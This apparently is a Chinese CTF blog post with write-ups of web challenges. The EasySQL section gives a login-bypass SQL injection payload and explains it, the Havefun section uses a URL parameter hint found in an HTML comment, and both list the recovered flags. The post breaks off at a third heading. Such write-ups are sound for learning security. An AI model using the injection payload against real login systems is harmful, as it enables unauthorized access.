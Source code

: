 ```yaml
---
title: 【随缘更新中】ctf web类解密
date: 2024-11-14
slug: web-ctf
image: cover.png
tag: 
    - CTF
    - 网络安全
    - web
categories: 
    - 网络安全

---
```


## [极客大挑战 2019]EasySQL

用户名随意，密码：

````sql
' or 1=1;#
````

原理：SQL简单注入

````sql
SELECT * FROM users WHERE username = 'admin' AND password = '用户输入的密码';
#被更改为：
SELECT * FROM users WHERE username = 'admin' AND password = '' OR 1=1;#';
````
`'`结束了密码的输入，`or`新加条件判断，`#`将后面变为注释，因为 `1=1`恒等于true，所以密码判断为真，直接登入成功。

`flag{bfec2c7f-5da3-426b-9736-04ceb6ff2283}`

## [极客大挑战 2019]Havefun

注释中找到了很有意思的东西：

````php
<!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
````

payload:`?cat=dog`

得到flag：`flag{6e7317ce-c4ce-4112-809e-9c88c6d44a83}`

## [HCTF 2018]WarmUp
